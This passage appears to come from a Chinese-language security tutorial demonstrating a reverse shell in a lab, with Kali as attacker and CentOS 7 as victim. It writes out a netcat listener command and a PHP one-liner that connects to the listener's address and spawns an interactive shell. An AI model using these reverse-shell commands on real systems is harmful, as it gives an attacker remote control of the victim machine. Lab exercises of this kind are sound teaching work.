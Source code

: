 这里的攻击者就是kali，按照官网上开启监听。

```
kali命令：nc -lvnp 7777
```

![img](assets/uI2WeDziGxM65Hw.jpg) 

#### 2.8.1.3. **受害者**

这里的受害者就是centos7，按照官网上的生成的命令进行配置，我这里centos7上没有php，所以没成功正常情况下是能够成功的，这里我主要就是演示一下。

```
centos7命令：php -r '$sock=fsockopen("192.168.10.20",7777);`sh -i <&3 >&3 2>&3`;'
```

![img](assets/KyToDEe9hRvxOsV.jpg) 